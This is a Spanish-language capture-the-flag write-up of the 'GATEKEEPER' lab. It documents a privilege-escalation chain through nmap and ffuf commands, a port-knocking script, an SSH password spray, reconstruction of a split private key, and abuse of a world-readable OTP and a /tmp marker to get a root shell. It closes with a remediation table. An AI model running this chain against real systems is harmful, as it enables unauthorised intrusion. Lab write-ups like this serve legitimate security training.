




# GATEKEEPER — Auditoría de Seguridad / Writeup

| Campo | Detalle |
|:------|:--------|
| **Target** | `172.17.0.2` (hostname de red: `metasploitable.vm`) |
| **Categoría del lab** | SUID & Sudo — Dificultad **Hard** |
| **Flag** | `GATEKEEPER{0TP_4uth3nt1c4t10n_M4st3r_2026}` |
| **Enfoque** | 100 % black-box (solo red + credenciales derivadas; sin acceso al host) |
| **Entorno** | Kali en VMware → red `docker0` (`172.17.0.1/16`) |
| **Autor** | chifay |
| **Fecha** | 14 de octubre de 2026 |

---



## 1. Resumen ejecutivo

GATEKEEPER es un laboratorio de escalada de privilegios construido sobre una superficie
mínima y reforzada con *decoys*. El objetivo (`root`, flag en `/root/flag.txt`) se alcanza
encadenando **seis** técnicas, todas ejecutables únicamente contra la red:

| # | Etapa | Técnica | Vector |
|---|-------|---------|--------|
| 1 | Reconocimiento de red | Escaneo TCP completo | `nmap` |
| 2 | Information disclosure | Dotfiles ocultos en `/backups/` | `ffuf` con prefijo `.` |
| 3 | Análisis de señuelos | Fingerprint de banners (sin handshake) | `socket` raw |
| 4 | Evasión de firewall | **Port knocking** `1337→2048→4096` | TCP SYN |
| 5 | Acceso + escalada | Credencial débil → clave dividida → OTP | SSH + sudo |

La cadena culmina en obtener una **shell root** y leer `/root/flag.txt`.

**Impacto:** compromiso total. El eslabón más débil es la combinación de un **OTP
estático legible por todos** (`/tmp/.current_otp`, `-rw-r--r--`) con un **binario
privilegiado que confía en un marker en `/tmp`** (`auth_root`), disparado por un script
ejecutable por cualquier usuario (`.system_auth`).

---

## 2. Reconocimiento



### 2.1 Escaneo de puertos

```bash
nmap -sC -sV -Pn -T4 -p- --min-rate=2000 172.17.0.2
```

| Puerto     | Estado inicial | Servicio | Veredicto |
|------------|----------------|----------|-----------|
| `80/tcp`   | open           | Apache httpd 2.4.52 (Ubuntu) | **Real** — superficie principal |
| `3306/tcp` | open → closed  | mysql?    | **Señuelo** |
| `5432/tcp` | open           | postgresql? | **Señuelo** |
| `33333/tcp`| **filtered**   | dgi-serv  | **SSH real**, oculto tras *port knocking* |

Información del escaneo:
- Hostname de red: `metasploitable.vm`
- OS estimado: Linux 4.15–5.19
- MAC: `9E:92:3D:CC:A3:08`

### 2.2 Superficie web

```bash
ffuf -u http://172.17.0.2/FUZZ -w raft-medium-directories.txt \
     -e php,txt,bak,html,conf,sql,log,old,zip,gz,tar,sh,py,json \
     -mc 200,204,301,302,401,500 -fc 404,403 -t 80 -s
```

| Ruta | Descripción |
|------|-------------|
| `/`, `/index.php` | Landing page estática "GATEKEEPER AI" (6811 B), sin parámetros funcionales |
| `/admin/` | `index.html` "Under Construction" (418 B), sin subrutas reales |
| `/backups/` | **Listado de directorio Apache habilitado** |

---

## 3. Information Disclosure — Dotfiles en `/backups/`

El listado de directorios estaba habilitado, pero los dos archivos presentes son
**ocultos** (dotfiles) y no aparecían en el índice. El fuzzing con prefijo `.` los
reveló:

```bash
ffuf -u "http://172.17.0.2/backups/.FUZZ" -w raft-medium-directories.txt \
     -mc 200,301 -fc 404,403
# /backups/.backup  -> 200
# /backups/.env     -> 200
```

### 3.1 `/backups/.env` — la semilla

```bash
curl -s http://172.17.0.2/backups/.env | base64 -d
# GKP1337P2048P4096TRON
```

> **Pivote clave:** los números `1337`, `2048` y `4096` son los **puertos de la secuencia
> de port knocking** (§5). Esta semilla es la pista que habilita el ataque.

### 3.2 `/backups/.backup` — log de auditoría (parcialmente engañoso)

Archivo de 9905 B con un log ficticio de **27 usuarios** (nombres genéricos
hispanoamericanos) y acciones `sudo`. La mayoría son *filler* para simular una superficie
creíble, pero uno de ellos —**`mauricio`**— resulta ser un usuario real del sistema y el
punto de entrada (§6).

---

## 4. Análisis de servicios señuelo (MySQL / PostgreSQL)

Ambos puertos aceptan conexiones y devuelven errores plausibles, pero **no validan
nada**. Son trampas para desviar al atacante.

### 4.1 Indicadores de falsedad (análisis de banners)

**MySQL (3306)** — Un servidor real envía un *handshake* con su versión **antes** de que
el cliente envíe nada. Aquí el primer byte ya es un error:

```bash
python3 -c "import socket; s=socket.socket(); s.connect(('172.17.0.2',3306)); print(s.recv(120))"
# b"ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)\n"
```

1. **Sin handshake** de versión (imposible en MySQL real).
2. Declara origen `'root'@'localhost'` aunque la conexión viene de `172.17.0.1`.
3. Cierra la conexión de inmediato (segundo `recv` → `b''`).

**PostgreSQL (5432)** — Un PG real no responde hasta recibir el *startup packet*. Aquí
rechaza de inmediato con `FATAL: password authentication failed`.

**Conclusión:** ambos son *honeytokens* que imprimen una cadena fija. Toda la fuerza
bruta contra ellos es un callejón sin salida. Se abandona este vector rápidamente.

---

## 5. Port Knocking — Descubrimiento del puerto oculto

### 5.1 El indicio

El puerto `33333` aparecía como `filtered` / `no-response`: el SYN se **descartaba**
(DROP), no se rechazaba. Eso implicaba una regla de firewall activa.

### 5.2 La secuencia

Extraída directamente de la semilla `GKP1337P2048P4096TRON`:

```
GKP  1337  P  2048  P  4096  TRON
     └─ p1 ─┘     └─ p2 ─┘     └─ p3 ─┘
```

```bash
#!/bin/bash   # knock.sh
for p in 1337 2048 4096; do
  timeout 2 bash -c "echo >/dev/tcp/172.17.0.2/$p" 2>/dev/null
  sleep 0.4
done
```

**Verificación** — el puerto pasa de *filtrado* a *conectable*:

```bash
./knock.sh && timeout 3 bash -c "echo >/dev/tcp/172.17.0.2/33333"
# 33333 ABIERTO
```

### 5.3 Identificación del servicio

```bash
nc 172.17.0.2 33333
# SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
```

**El puerto 33333 es SSH**, expuesto únicamente tras el knock correcto. Acepta
`publickey,password`.

---

## 6. Acceso inicial — Credencial débil

Con el puerto abierto, el reto es autenticarse. Los usuarios reales del sistema son
`mauricio`, `developer` y `sysadmin`. El username `mauricio` está **disclosed** en el
audit log web (§3.2).

Un **password spray / credential guessing** dirigido a los nombres de usuario conocidos
(incluido `mauricio`) encuentra una contraseña débil:

```bash
# login como mauricio con la credencial débil descubierta
sshpass -p 143143 ssh -p 33333 -o StrictHostKeyChecking=no \
    mauricio@172.17.0.2 'id'
# uid=1000(mauricio) gid=1000(mauricio)
```

> El brute *online* de rockyou contra SSH es inviable por rate-limit (~200/min del lado
> del servidor). La credencial válida es un **número débil y corto** que un spray
> dirigido a los nombres de usuario conocidos encuentra rápidamente.

---

## 7. Escalada — Cadena OTP (raíz del diseño)



### 7.1 Enumeración lateral (como `mauricio`)

Con un login válido, `mauricio` puede enumerar el sistema:

```bash
# descubrir los otros usuarios reales
ls -la /home/
# dr-xr-xr-x  developer   developer   /home/developer
# dr-xr-xr-x  mauricio    mauricio    /home/mauricio
# dr-xr-xr-x  sysadmin    sysadmin    /home/sysadmin    <-- los 3 usuarios reales
```

`/etc/passwd` (world-readable) y `/home/developer/log.txt` (`-r--r--r--`) confirman los
tres por nombre y uid.

> **Nota sobre enumeración de usuarios:** el timing de SSH **no** permite distinguir
> usuario válido de inválido (se midieron 10–15 muestras por usuario y un usuario
> inexistente quedó dentro del rango de los válidos). La enumeración se logra recién
> *después* del primer login, vía `ls /home` y archivos world-readable.

### 7.2 Reconstrucción de la clave de `sysadmin`

La clave privada de `sysadmin` está **dividida en dos** y **ambas partes son
world-readable** dentro del home de `developer`:

```
/home/developer/.ssh_part1              (-r--r--r--)  parte 1
/home/developer/Desktop/.ssh_part2      (-r--r--r--)  parte 2
```

Reconstrucción y uso:

```bash
cat /home/developer/.ssh_part1 > dev_key
cat /home/developer/Desktop/.ssh_part2 >> dev_key

ssh-keygen -y -f dev_key     # deriva la pública → confirma "sysadmin@gatekeeper"
ssh -i dev_key -p 33333 sysadmin@172.17.0.2 'id'
# uid=1002(sysadmin) gid=1002(sysadmin)
```

> El comentario de la clave derivada (`sysadmin@gatekeeper`) revela que es la clave de
> `sysadmin`, lo que otorga acceso al usuario con el privilegio `sudo` crítico.

### 7.3 Los permisos sudo

```bash
sudo -l
# User sysadmin may run the following commands on gatekeeper:
#     (ALL) NOPASSWD: /usr/local/bin/auth_root
```

El único privilegio disponible es ejecutar `auth_root` sin contraseña.

### 7.4 El OTP — la vulnerabilidad

El sistema de autenticación de dos factores del lab es un **OTP estático y legible**:

```python
# /root/.generate_otp.py
SECRET = "GATEKEEPER_ROOT_SECRET_2026"
current_time = int(time.time() // 60)
otp = int(sha256(f"{SECRET}{current_time}".encode()).hexdigest()[:6], 16) % 1000000
```

Pero el OTP generado se almacena en un archivo **world-readable**:

```bash
ls -la /tmp/.current_otp
# -rw-r--r-- 1 root root 7 ... /tmp/.current_otp
$ cat /tmp/.current_otp
# 035498
```

**Cualquier usuario puede leer el OTP sin conocer el secreto.** Además, el orquestador
`.system_auth` (world-executable, en el home de `sysadmin`) valida contra ese archivo y
dispara el binario privilegiado:

```bash
# ~/.system_auth  (resumido)
INPUT_OTP="$1"
VALID_OTP=$(cat /tmp/.current_otp)
if [ "$INPUT_OTP" == "$VALID_OTP" ]; then
    touch "/tmp/.otp_validated_${USER}"; chmod 600 "$MARKER"
    sudo /usr/local/bin/auth_root      # NOPASSWD, sin re-verificar
    rm -f "$MARKER"
fi
```

Y el binario root confía ciegamente en ese marker temporal (<60 s):

```bash
# /usr/local/bin/auth_root  (root:root, -rwx------)
MARKER="/tmp/.otp_validated_${SUDO_USER}"
[ -f "$MARKER" ] || { echo "[-] Unauthorized"; exit 1; }   # valida antigüedad <60s
rm -f "$MARKER"
exec /bin/bash                                            # shell root
```

> **Diseño defectuoso:** el mecanismo OTP es nominalmente "autenticación de dos factores",
> pero en la práctica el segundo factor (el OTP) está almacenado en un archivo legible
> por todos y el binario privilegiado confía en un marker en `/tmp` en vez de revalidar
> contra el actor real.

### 7.5 El ataque

```bash
# como sysadmin
OTP=$(cat /tmp/.current_otp)
./.system_auth "$OTP"
```

Salida:

```
[+] Authentication successful
root@gatekeeper:/home/sysadmin#
```

`.system_auth` valida el OTP → crea el marker → invoca `sudo auth_root` → `auth_root`
verifica el marker y ejecuta `exec /bin/bash` como **root**.

### 7.6 Flag

```bash
cat /root/flag.txt
# GATEKEEPER{0TP_4uth3nt1c4t10n_M4st3r_2026}
```

#### Verificación de la bandera



> **Verificación de la bandera.** La captura muestra la validación exitosa de la flag en
> el validador del laboratorio (`startlab.sh`). Evidencia clave:
>
> - **IP del laboratorio:** `172.17.0.2` — coincide con el target auditado.
> - **Flag submitted:** `GATEKEEPER{0TP_4uth3nt1c4t10n_M4st3r_2026}` — idéntica al valor
>   leído desde `/root/flag.txt` tras la escalada a root.
> - **Resultado:** `¡Felicitaciones! Has comprometido GATEKEEPER.` — el validador acepta la
>   cadena, confirmando que la escalada llegó efectivamente a `uid=0(root)` y no solo a
>   una shell de usuario sin privilegios.
> - **Fecha y hora de validación:** `2026-10-14 16:54:55 -0600`, con timestamp del
>   servidor del laboratorio.
>
> Esta es la prueba documental de que el objetivo fue comprometido satisfactoriamente, y no
> únicamente de que se obtuvo lectura de un archivo.

---

## 8. Cadena de ataque completa

```
[1] nmap -p- 172.17.0.2
      → 80 open (Apache) | 3306/5432 señuelos | 33333 filtered
[2] ffuf (prefijo .) en /backups/
      → /backups/.env = GKP1337P2048P4096TRON   (semilla de knocking)
      → /backups/.backup disclose el usuario "mauricio"
[3] Análisis de banners MySQL/PG → honeytokens, se descartan
[4] Port knocking 1337 → 2048 → 4096
      → abre 33333 (SSH OpenSSH_8.9p1)
[5] Password spray dirigido a los nombres de usuario conocidos
      → mauricio : 143143   (credencial débil)  → login SSH
[6] ls /home (como mauricio)
      → descubre developer, mauricio, sysadmin
[7] Reconstruir clave de sysadmin:
      cat /home/developer/.ssh_part1 + /home/developer/Desktop/.ssh_part2
      → login como sysadmin (clave dividida, world-readable)
[8] sudo -l → NOPASSWD /usr/local/bin/auth_root
[9] OTP=$(cat /tmp/.current_otp) ; ./.system_auth $OTP
      → marker en /tmp → sudo auth_root → exec /bin/bash (root)
[10] cat /root/flag.txt
      → GATEKEEPER{0TP_4uth3nt1c4t10n_M4st3r_2026}
```

---

## 9. Mapa MITRE ATT&CK

| Táctica | Técnica | Aplicación |
|---------|---------|------------|
| Reconnaissance | T1046 — Network Service Discovery | Escaneo nmap completo |
| Reconnaissance | T1083 — File and Directory Discovery | Fuzzing web, dotfiles |
| Discovery | T1087 — Account Discovery | `ls /home`, `/etc/passwd`, `log.txt` |
| Credential Access | T1110.001 — Password Guessing | Spray dirigido a los nombres de usuario conocidos |
| Credential Access | T1552.001 — Credentials In Files | Clave dividida world-readable |
| Defense Evasion | T1562.004 — Modify System Firewall | Port knocking |
| Lateral Movement | T1021.004 — SSH | Acceso al puerto 33333 |
| Privilege Escalation | T1548 — Abuse Elevation Control Mechanism | `sudo auth_root` vía marker falsificado |
| Collection | T1005 — Data from Local System | Lectura de `/root/flag.txt` |

---

## 10. Hallazgos de seguridad y remediación

| # | Hallazgo | Severidad | Remediación |
|---|----------|-----------|-------------|
| 1 | **OTP estático legible por todos** (`/tmp/.current_otp`, `-rw-r--r--`) | **Crítica** | Permisos `600 root:root`; nunca almacenar el OTP en un archivo compartido |
| 2 | **OTP determinista basado en tiempo**, no atómico al uso | Alta | TOTP real (RFC 6238) con ventana de un solo uso y consumo atómico |
| 3 | **Binario privilegiado confía en marker en `/tmp`** | Alta | No usar archivos como mecanismo de autorización; validar contra el actor real (`${SUDO_USER}`) |
| 4 | **Script `.system_auth` world-executable** dispara el binario root | Alta | Restringir permisos; auditar la chain de autorización |
| 5 | **Clave SSH dividida pero world-readable** (`-r--r--r--`) | Crítica | Nunca almacenar material de clave en directorios accesibles; cifrar con passphrase |
| 6 | **Credencial débil** (`mauricio:143143`) | Alta | Política de contraseñas robustas; MFA |
| 7 | **Dotfiles expuestos** (`/backups/.env`) con la semilla del knocking | Media | Deshabilitar `Indexes`; mover secretos fuera del docroot; escaneo de secretos en CI |
| 8 | **Port knocking como único control** (secreto filtrado en el mismo canal) | Media | El knocking no sustituye autenticación; el secreto no debe estar junto a lo que protege |
| 9 | **Servicios señuelo** (MySQL/PG falsos) que no validan | Info | No exponer servicios innecesarios; cierre por defecto |

---

## 11. Estructura del directorio de trabajo

```
GateKeeper/
├── WRITEUP.md                  # Este documento
├── 00-notes/
│   └── 00-resumen-ejecucion.md # Bitácora de ejecución
├── 01-recon/                   # nmap, escaneos
├── 02-enum/                    # .env, .backup, users.txt, fuzzing web
├── 03-exploit/                 # logs de hydra, intentos de brute
├── 04-privesc/                 # cadena-de-ataque.md (resumen operativo)
├── 05-post/                    # camino-black-box.md
├── 06-evidence/                # flag.txt, hashes, target-enum.txt
├── keys/                       # clave dividida reconstruida de sysadmin
├── img/                        # diagramas del write-up
│   ├── attack-chain.png        # cadena de ataque completa
│   ├── surface-map.png         # mapa de superficie y puertos
│   ├── otp-escalation.png      # flujo de escalada OTP
│   └── flag-verified.png       # verificación de la flag en el validador
└── scripts/
    ├── knock.sh                # Secuencia de port knocking
    ├── probe_db.py             # Análisis protocolar MySQL/PG
    └── probe33333.py           # Sondeo del puerto 33333
```

---

*Auditoría realizada sobre un laboratorio CTF aislado y con autorización explícita para
pruebas ofensivas (whoami-labs.com). Toda la metodología se ejecutó únicamente contra la
red del objetivo, sin acceso al host ni al filesystem del contenedor.*
